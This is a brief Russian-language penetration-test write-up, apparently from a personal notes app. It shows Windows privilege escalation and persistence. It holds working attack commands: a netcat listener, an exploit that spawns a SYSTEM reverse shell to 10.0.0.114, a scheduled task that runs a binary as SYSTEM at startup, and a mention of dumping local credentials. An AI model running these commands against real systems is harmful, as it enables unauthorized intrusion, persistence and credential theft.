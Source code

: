![[Pasted image 20241114222435.png]]

Теперь посмотрим PID, который запущен от имени системы

```
tasklist /v
```

![[Pasted image 20241114222528.png]]

Я выберу любой процесс с svchost и включу прослушиватель на любом доступном порту. 

```
nc -nlvp 31337
```

Ну и собственно говоря запускаем эксплоит и получаем шелл.
```
shell sdp.exe 1548 "c:\windows\tasks\nc.exe 10.0.0.114 31337 -e cmd"
```

![[Pasted image 20241114222712.png]]
![[Pasted image 20241114223831.png]]

![[Pasted image 20241114223856.png]]

Закреплялся я через планировщик 

```
schtasks /create /tn DiskPentestera /tr "c:\windows\tasks\x2.exe" / sc onstart /ru SYSTEM /f
```

Ну дальше как обычно сливаем локальные креды и снова фаззим сетку. На этом пока что остановимся=)

